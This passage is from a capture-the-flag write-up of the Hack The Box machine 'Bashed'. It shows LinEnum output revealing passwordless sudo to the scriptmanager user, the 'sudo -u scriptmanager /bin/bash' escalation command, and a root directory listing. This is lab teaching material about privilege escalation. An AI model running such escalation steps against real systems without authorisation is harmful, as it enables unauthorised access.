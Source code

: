 The full output of the script is available in [`LinEnum.output.txt`](https://github.com/alichtman/writeups/blob/master/hack-the-box/Bashed/enumeration/LinEnum.output.txt). Download the file and `cat` it to see the output properly formatted. The important excerpts are included below.

Right off the bat, I see that it's running an old kernel (`Linux bashed 4.4.0-62-generic`). There are a variety of kernel exploits that we could use to get an insta-root, but I bet there's something more interesting we could do. If we scroll down a bit further, we see this:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means that we can upgrade to a shell as `scriptmanager` with the following command: `$ sudo -u scriptmanager /bin/bash`.

```bash
scriptmanager@bashed:/dev/shm/$ cd /
scriptmanager@bashed:/$ ll
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ./
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ../
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin/
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot/
drwxr-xr-x  19 root          root           4240 Apr  2 04:14 dev/
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc/
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home/
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64/
drwx------   2 root          root          16384 Dec  4  2017 lost+found/
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media/
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt/
dr-xr-xr-x 116 root          root              0 Apr  2 04:14 proc/
drwx------   3 root          root           4096 Dec  4  2017 root/
drwxr-xr-x  18 root          root            500 Apr  2 04:14 run/
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin/
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts/
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv/
dr-xr-xr-x  13 root          root              0 Apr  2 04:14 sys/
drwxrwxrwt  10 root          root           4096 Apr  2 05:48 tmp/
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr/
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var/
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
